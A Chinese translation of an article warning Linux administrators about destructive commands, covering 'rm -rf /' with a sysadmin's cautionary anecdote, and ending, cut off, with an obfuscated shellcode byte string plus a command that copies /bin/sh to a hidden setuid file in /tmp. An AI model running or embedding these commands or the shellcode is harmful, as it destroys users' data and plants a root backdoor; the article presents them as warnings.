 一些您不应该使用的 Linux 命令
======
当然，除非你想干掉你的机器。

蜘蛛侠有这样的一句信条, "权力越大，责任越大。" 对于 Linux 系统管理员们来说，这也是一种适合采用的明智态度。

不，真的，真心感谢 DevOps 的沟通协作和云编排技术，让一个 Linux 管理员不仅能掌控一台服务器，甚者能控制成千上万台服务器实例。只需要一个愚蠢的举动，你甚至可以毁掉一个价值数十亿美元的企业，比如 [not patching Apache Struts][1] 。

如果不能停留在安全补丁之上，将会带来一个远超过系统管理员工资等级的战略性业务问题。这里就有一些足以攻击 Linux 服务器的方式掌握在系统管理员手中。很容易想象到，只有新手才会犯这些错误，但是，我们需要了解的更多。

下列是一些著名的命令，任何拥有 root 权限的用户都能借助它们对服务器造成严重破坏。

警告：千万不要在生产环境运行这些命令，它们会危害你的系统。不要在家里尝试，也不要在办公室里测试。

那么，继续！

### rm -rf /

想要干脆利落的毁掉一个 Linux 系统吗？你无法超越这个被誉为“史上最糟糕”的经典，他能删除一切，我说的是，能删除所有存在你系统里的内容！

和大多数 [Linux commands][2]一样，‘rm’这个核心指令使用起来非常方便。即便是最顽固的文件他也能帮你删除。结合起后面两个参数理解‘rm’指令时，你很容易陷入沉思：‘-r’，强制递归删除所有子目录，‘-f’，无需确认，强制删除所有只读文件。如果你在根目录运行这条指令，将清除整个驱动器上的所有数据。

如果你真这么干了，想想该怎么和老板解释吧！

现在，也许你会想，“我永远不会犯这么愚蠢的错误。”朋友，骄兵必败。吸取一下经验教训吧 [this cautionary tale from a sysadmin on Reddit][3]:

> 我在IT界工作了很多年，但是今天，作为 Linux 系统 root 用户，我在错误的系统路径运行了‘rm- f’
>
> 长话短说，那天，我需要复制一大堆目录从一个目录到另一个目录，和你一样，我敲了几个‘cp -R’去复制我需要的内容。
>
> 在我的聪明才智下，我持续敲着上箭头，在命令记录中寻找可以复制使用的类似命令名，但是它们混杂在一大堆其他命令当中。
>
> 不管怎么说，我一边在 Skype、Slack 和 WhatsApp 的网页上打字，一边又和 Sage 通电话，注意力严重分散，我的脑子被‘rm -R ./videodir/* ../companyvideodirwith651vidsin/’这样一条命令自动驱使。

然后，当文件在一片空白后归档，公司的视频文件才出现。幸运的是，在疯狂敲击‘control -C’后，得以在删除大量文件之前，中止了这条命令。但这是对你的警告：任何人都可能犯这样的错误。

事实上，绝大部分现代操作系统都会在你烦这些错误之前，用一段醒目的文字警告你。然而，如果你在连续敲击键盘时忙碌或是分心，你将会把你的系统键入一个黑洞。

这里有一些更为隐蔽的方式调用 rm -rf。思考一下下面的代码

`char esp[] __attribute__ ((section(".text"))) = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"`

`"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"`

`"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"`

`"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"`

`"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"`

`"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"`

`"\x6e\x2f\x73\x68\x00\x2d\x63\x00"`

`"cp -p /bin/sh /tmp/.beyond; chmod 4755`
